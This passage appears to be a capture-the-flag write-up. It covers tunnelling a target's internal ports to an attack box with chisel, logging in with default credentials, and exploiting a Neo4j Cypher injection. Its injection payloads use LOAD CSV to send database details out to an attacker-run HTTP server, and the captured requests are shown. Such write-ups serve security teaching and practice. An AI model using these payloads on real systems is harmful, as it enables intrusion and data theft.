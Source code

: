 We run the `chisel` server on our machine (attack box) with the following command:
```bash
./chisel server --reverse --port 51234  # any opened port
```

And then we run the client on the target:
```bash
# You can forward any number of ports to the server machine
./chisel client <ATTACK-IP>:51234 R:8001:127.0.0.1:8001 [R:<PORT>:127.0.01:<PORT>]*
                                  |
                                  |- [attack-ip:attack-port:target-ip:target-port]
                                  `- R is an alias for 127.0.0.1
# So here, we forward the 4 previous ports (3000, 8001, 7687, 7474)
```

We can now access all of these services from our attack box. The corresponding services are:
    - 3000: `Gogs` (Go Git Services)
    - 8001: An intern app with data and employees informations
    - 7474: A `neo4j-browser` application
    - 7687: The `neo4j` database

In the `Gogs` app we can find two users, `john` and `administrator`, but among all these services we can only connect easily to the internal app with the credentials `admin:admin`. There is a dashboard, a user profile and we can search for employees in the third page.

A message in the dashboard said that the migration to `neo4j` database is done. Moreover, if we try to search for a user with name containing `'`, we get a 500 error. So, it might be a Neo4j Cypher Injection ([link](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j)).

### Exploitation

First we need to check if the `search` allow us to perform Neo4j Cypher Injection. So we first need to launch a Python HTTP server and then we can do the following request:
```
POST /search HTTP/1.1
Host: 127.0.0.1:8001
[...]

search=' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://<ATTACK-IP>:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

We receive the following :
```bash
$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.210 - - [23/Aug/2023 10:55:23] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [23/Aug/2023 10:55:23] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

It works ! The we can extract the labels in the database:
```
# Search payload to send
search=' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.68:8000/?label=' + label as l RETURN 0 as _0 //
# We receive
10.10.11.210 - - [23/Aug/2023 10:56:52] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [23/Aug/2023 10:56:52] "GET /?label=employee HTTP/1.1" 200 -
[...]
```
